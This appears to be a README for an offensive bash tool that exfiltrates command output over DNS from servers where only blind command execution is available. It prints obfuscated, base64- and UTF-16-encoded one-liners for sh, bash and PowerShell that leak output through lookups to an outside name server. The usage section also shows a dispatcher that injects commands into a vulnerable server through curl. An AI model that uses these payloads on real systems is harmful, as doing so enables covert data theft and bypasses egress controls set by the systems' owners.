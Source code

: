 # DNS Data Exfiltration

A bash script that automates the exfiltration of data over dns in case we have a blind command execution on a server where all outbound connections except DNS are blocked. The script currently supports bash and powershell and is compatible with exec style command execution (e.g. java.lang.Runtime.exec).

For its operations, the script takes as input the command we want to run on the target server and transforms it according to the target shell in order to allow its output to be exfiltrated over DNS. After the command is transformed, it's fed to the "dispatcher". The dispatcher is a program provided by the user and is responsible for taking as input a command and have it executed on the target server by any means necessary (e.g. exploiting a vulnerability). After the command is executed on the target server, it is expected to trigger DNS requests to our DNS name server containing chunks of our data. The script listens for those requests until the output of the user provided command is fully exfiltrated.

Below are the supported command transformations, generated for the exfiltration of the command: `ls`

sh:
```bash
sh -c $@|base64${IFS}-d|sh . echo IGRpZyBAMCArdHJpZXM9NSBgKGxzKXxiYXNlNjQgLXcwfHdjIC1jYC5sZW4xNjAzNTQxMTc4LndoYXRldi5lcgo=
```

bash:
```bash
bash -c {echo,IG5zbG9va3VwIGAobHMpfGJhc2U2NCAtdzB8d2MgLWNgLmxlbi4xNjAzMDMwNTYwLndoYXRldi5lcgo=}|{base64,-d}|bash
```

powershell:
```bash
powershell -enc UgBlAHMAbwBsAHYAZQAtAEQAbgBzAE4AYQBtAGUAIAAkACgAIgB7ADAAfQAuAHsAMQB9AC4AewAyAH0AIgAgAC0AZgAgACgAWwBDAG8AbgB2AGUAcgB0AF0AOgA6AFQAbwBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAoAGwAcwApACkAKQAuAGwAZQBuAGcAdABoACkALAAiAGwAZQBuACIALAAiADEANgAwADMAMAAzADAANAA4ADgALgB3AGgAYQB0AGUAdgAuAGUAcgAiACkACgA=
```

## Usage
1. Local testing for bash:
```bash
./dns_data_exfiltration.sh -h whatev.er -d "dig @0 +tries=5" -x dispatcher_examples/local_bash.sh -- 'ls -lha|grep secret' < <(stdbuf -oL tcpdump --immediate -l -i any udp port 53)
```

Contents of dispatcher.sh:
> $@

2. Local testing for powershell with WSL2:
```bash
stdbuf -oL tcpdump --immediate -l -i any udp port 53|./dns_data_exfiltration.sh -w ps -h whatev.er -d "Resolve-DnsName -Server wsl2_IP -Name" -x dispatcher_examples/local_powershell_wsl2.sh -- 'gci | % {$_.Name}'
```

Contents of dispatcher.sh:
> /mnt/c/Windows/System32/WindowsPowerShell/v1.0/powershell.exe ${@:1}

3. powershell example where we ssh into our NS to get the incoming DNS requests.
```bash
./dns_data_exfiltration.sh -w ps -h yourdns.ns -d "Resolve-DnsName" -x ./dispatcher.sh -- 'gci | % {$_.Name}' < <(stdbuf -oL ssh user@HOST 'sudo tcpdump --immediate -l udp port 53')
```

Contents of dispatcher.sh
> curl https://vulnerable_server --data-urlencode "cmd=${1}"

4. More information on the options
```bash
dns_data_exfiltration.sh --help
```

### Comments
Currently the provided command gets executed multiple times on the server until all of its output is extracted. This behavior may cause problems in case that command is not idempotent (functionality or output-wise, e.g. process listing) or is time/resource intensive. 
A workaround to avoid running into issues for the aforementioned cases is to first store the command output into a file (e.g. /tmp/file) and then read that file.

### Todos
 - Concurrency in the data exfiltration loop